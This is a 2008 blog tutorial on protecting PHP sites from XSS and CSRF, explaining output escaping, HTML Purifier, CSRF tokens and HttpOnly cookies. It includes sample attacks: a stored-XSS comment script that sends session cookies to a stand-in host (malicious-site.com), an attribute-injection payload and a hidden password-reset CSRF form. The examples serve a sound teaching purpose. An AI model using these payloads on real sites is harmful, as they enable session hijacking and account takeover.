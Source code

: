 title: Securing Your PHP Code - XSS
date: 2008-04-06 02:03
excerpt: 
categories: javascript, php, programming

Today I'm going to start a three part series looking at security issues affecting web developers. The specifics apply to PHP developers, but the general concepts carry across all technologies.

Any significant website is going to consist of three core layers: the client side code (HTML and JavaScript), server code (PHP) and a storage layer (MySQL). As a developer you should be aware of the security implications of each layer of technology and how you can best secure your code.

<!--more-->

## What is an XSS Attack?

This post is going to focuse on JavaScript and HTML. You might think that the HTML on your site  is fairly benign. Does it matter if the HTML doesn't come out exactly the way you planned? Actually, it does. [Cross-Site Scripting (XSS)](http://en.wikipedia.org/wiki/XSS) is the terms given to security vulnerabilities that are exploited through client site scripting.

## Attack Types

XSS attacks fall into two categories: persistent and non-persistent. A persistent attack is one in which the attacker permanently modifies your site, just like the example below. Any user that loads the vulnerable page will be affected. A non-persistent attack is a temporary modification to the page, for example when a page prints out a variable passed to it through the query string. A non-persistent attack usually relies on some kind of social aspect from the attackers to entice the victim to visit a specially crafted URL.

Non-persistent attacks may also take advantage of holes in your JavaScript to write output to the page.

## XSS Example

A simple persistent XSS session hijack attack might take the following form.

*   You accept user input into a comment field. This is output straight to the page with no filtering.
*   Malicious user Alice sends the following comment

```html
Great Work!
<script>document.write('![](http://malicious-site.com/capture/)');</script>
```

*   This is accepted by your site and pasted into the comments.
*   One of your members, Bob, visits the comment page while logged in.
*   His browser parses the malicious script and adds the invisible image tag to the page.
*   His browser then requests the URL of the image: http://malicious-site.com/capture/PHPSESSID=3D3c2542747972f9a08b8759eafd079d7b
*   Alice's server logs Bob's session cookie.
*   Alice can now use the same session cookie on our site and you'll think she's logged in as Bob.
This is a simple session hijacking attack. You could no-doubt patch this vulnerability, but there are a whole range of vectors that malicious users can use to attack your site. You need to focus on your security from a broad perspective and make sure that you have covered absolutely every angle. It only takes one hole to circumvent all your defenses.

## Escaping Data

The one rule to stoping attacks is simple: you need to stop trusting your users' input. Every single piece of information you receive should be trusted as suspect. This goes beyond your usually $_POST and $_GET variables to include the following.

*   $_GET
*   $_POST
*   $_FILES
*   $_COOKIES
*   $_SERVER (variables like 'REFERRER_URI' or  'USER_AGENT' are sent by the user - some attackers have been known to [send bad referrer data](http://lwn.net/2001/1108/a/webalizer.php3) so that they can exploit admin interfaces that show referrer information).
*   Data from the DB (another developer may plug in a new data source at some stage, so you cannot ever assume that database data is escaped).
*   Anything retrieved remotely, such as a RSS feeds.
That is a lot of data to sanitize. You might think that you can filter all incoming data but that's going to lead to complications. What if you decide you need to store data from an incoming RSS feed in your DB? When you read from the datadase you'll have already escaped it, and risk escaping it again when you read it back out. You will end up with a mass of code for escaping and un-escaping. On a project with multiple developers it will become difficult to know whether the data a block of code is dealing with is sanitized or not. The simplest solution for escaping your data is to assume that **all** data is unsafe and escape it at the last possible moment; when printing it out to a HTML page.

What we need is a function that will ensure our data is never interpreted as HTML by the client's browser. This is given to use in the form of PHP's `[htmlspecialchars](http://www.php.net/htmlspecialchars)`. This function will replace any quote, angled bracket or ampersand with its HTML entity. `&lt;script&gt;` becomes `&amp;lt;script&amp;gt;`. Once you have sanitized your data then you've just stopped a large number of possible attacks.

**Note:** make sure you quote all HTML attributes, especially if you are using (escaped) user input in them.

```php
<img src=foobar.gif alt=<?php echo htmlentities($userTitle);?> />
```
Could easily turn into

```html
<img src=foobar.gif alt= onclick=eval(/* some evil code*/) />
```

If you want to remove HTML tags rather than escape them then use `[striptags](http://www.php.net/striptags)`. I prefer to use `htmlspecialchars` because it won't lead to accidentally data loss, and also indicates to users who attempt to use HTML in a legitimate manor that HTML is not accepted.

## Allowing Some HTML

At some stage you are going to encounter a situation where you want to allow users to post a limited subset of HTML. I'd suggest that you save yourself a lot of trouble - don't ever try and filter the HTML yourself. Parsing HTML (especially badly written HTML) is an extremely hard task to do well. Regexes aren't going to cut it. [HTML Purifier](http://htmlpurifier.org/) seems to be the best package out there for PHP developers.

## Cross Site Request Forgeries

CSRF is a separate class of attack which is not technically an XSS attack, but is still closely related. In this attack the attacker creates specially crafted POST requests that they execute on the users browser without the user being aware. On third-party-site.com an attacker inserts the following code.

```html
<form action="http://www.your-site.com/account/set_password.php" method="post" id="evilForm">
	<input type="hidden" name="password" value="newpass" />
</form>
<script>document.getElementById('b).submit();</script>
```

Your site will receive an apparently valid POST request to reset the user's password. Because the request is sent from the victim's browser (without them knowing) it will contain a valid cookie. You need to have some way of filtering out these bogus requests from legitimate ones.

The "[Samy is my Hero](http://namb.la/popular/)" MySpace worm used a MySpace XSS hole and CSRF to spread.

If you are modifying data through GET requests then you have an even bigger problem. An attacker could post a link on your own site to a malicious URL: e.g. `http://www.your-site.com/blog/delete?id=1`	. No filtering is going to remove this URL because it is perfectly legitimate. Do not ever allow users to modify anything with a GET request.

## Preventing Bogus Requests

There are a few things you can do to prevent rogue POST requests on your site. A malicious website can have a hidden form that submits to your site, but no third-party site can ever read the DOM structure of your site through the victim's browser.
Many sites take advantage of this security restriction by introducing a two step process for any form data.

1.  User performs a GET on `delete.php`. This page does not modify any data.
2.  Site creates a unique token and adds it to the user's session.
3.  Site returns a page containing a POST form pointing to `delete_process.php`.
4.  The user submits the form.
5.  `delete_process.php` does the actual deletion only if the user has performed a POST request and the request includes the token generated in step 2.
6.  For good practice the server should redirect the user to a page that confirms their action (this is known as the [Post/Redirect/Get pattern](http://en.wikipedia.org/wiki/Post/Redirect/Get))
This method will thwart a malicious POST coming from the third party site, as the third part can never read the secret token we generate, and therefore their request will be rejected.

At the time of the "Samy" worm MySpace was actually implementing the two-step process described above. However, because the attacker had discovered an XSS hole in MySpace, he was able to spread the worm from within the MySpace.com domain and could use XMLHTTPRequests to read the unique token.

Note: You may think that checking referrer values is a good way to stop bogus requests. Unfortunately there have also been known vulnerabilities which allow an attacker to spoof referrer headers. In addition to this, many users browse with referrers turned off or deliberately set to an incorrect value.

## Watch Your Subdomains

It is common for many third-part scripts like WordPress or PHPBB to be vulnerable to XSS attacks. You may think that by hosting the package on a separate subdomain (e.g. forum.your-site.com) would keep you safe but an attacker can use JavaScript's `document.domain` setting to make XMLHTTPRequests and read cookies from your top level domain (e.g. "your-site.com"). However, they will not be able to attack any other subdomains. If you main site is located at www.your-site.com and cookies are set to be readable to ".www.your-site.com" then your main site will be safe.

## HTTP Only Cookies

Another promising candidate in the fight against XSS attacks is the [HTTP only cookie](http://msdn2.microsoft.com/en-us/library/ms533046.aspx), a proprietary extension created by Microsoft that would stop scripts from reading cookies that should only be read by the server.

## Final Thoughts

Be careful with your JavaScript, you could wind up undoing all the careful work you did in your server side code, just as [BugZilla](https://bugzilla.mozilla.org/show_bug.cgi?id=272620) did.

Pick a content encoding and stick to it. This has even [caught out Google](http://shiflett.org/blog/2005/dec/googles-xss-vulnerability). Use the same character encoding in your HTML meta tags as you pass to `htmlspecialchars`. UTF-8 is always a safe bet.

## Other articles in this series

*   [Securing Your PHP Code - Server Security](../securing-your-php-code-server-security/)
*   [Securing Your PHP Code - Databases](../securing-your-php-code-databases/)
